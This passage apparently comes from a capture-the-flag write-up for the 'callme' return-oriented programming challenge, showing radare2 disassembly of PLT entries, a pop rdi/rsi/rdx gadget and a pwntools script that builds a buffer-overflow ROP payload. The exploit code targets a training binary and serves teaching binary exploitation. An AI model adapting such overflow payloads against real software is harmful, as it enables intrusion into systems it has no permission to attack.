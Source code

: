 ```
│ bp: 0 (vars 0, args 0)
│ sp: 0 (vars 0, args 0)
│ rg: 0 (vars 0, args 0)
└       ╎   0x00400740      ff250a092000   jmp qword [reloc.callme_two] ; [0x601050:8]=0x400746 ; "F\a@"
        ╎   0x00400746      6807000000     push 7                      ; 7
        └─< 0x0040074b      e970ffffff     jmp sym..plt
[0x00400740]> s sym.imp.callme_three 
[0x004006f0]> pd 3
        ╎   ; CALL XREF from sym.usefulFunction @ 0x400905
┌ 6: sym.imp.callme_three ();
│ bp: 0 (vars 0, args 0)
│ sp: 0 (vars 0, args 0)
│ rg: 0 (vars 0, args 0)
└       ╎   0x004006f0      ff2532092000   jmp qword [reloc.callme_three] ; [0x601028:8]=0x4006f6
        ╎   0x004006f6      6802000000     push 2                      ; 2
        └─< 0x004006fb      e9c0ffffff     jmp sym..plt

```

So now we have the addresses where we want to jump in order to call the three function without using the call instruction (that will mess our stack)
we can also use into our script a facility of pwntools that contains alredy thhose addresses:
```python
elf = ELF('callme')

callme_one   = elf.plt['callme_one']   
callme_two   = elf.plt['callme_two']   
callme_three = elf.plt['callme_three'] 
```
and now we need the gadget that insert the parameter into the register using inside radare2 the command /R pop :

```
  0x0040093c                 5f  pop rdi
  0x0040093d                 5e  pop rsi
  0x0040093e                 5a  pop rdx
  0x0040093f                 c3  ret
```
one of those gadget is this.

knowing that the offset in this case is of 40 bytes we have all that we need in order to solve this challenge.

```python
from pwn import *
context.binary = elf = ELF('./callme')

offset = 40

pop_rdi_rsi_rdx = 0x40093c
callme_one   = elf.plt['callme_one']   
callme_two   = elf.plt['callme_two']   
callme_three = elf.plt['callme_three'] 

arg1 = 0xdeadbeefdeadbeef
arg2 = 0xcafebabecafebabe
arg3 = 0xd00df00dd00df00d

# order argument edi esi edx 

insert_prm = p64(pop_rdi_rsi_rdx)+p64(arg1)+p64(arg2)+p64(arg3)

payload = b'A'*offset + insert_prm + p64(callme_one) + insert_prm + p64(callme_two) + insert_prm + p64(callme_three)

```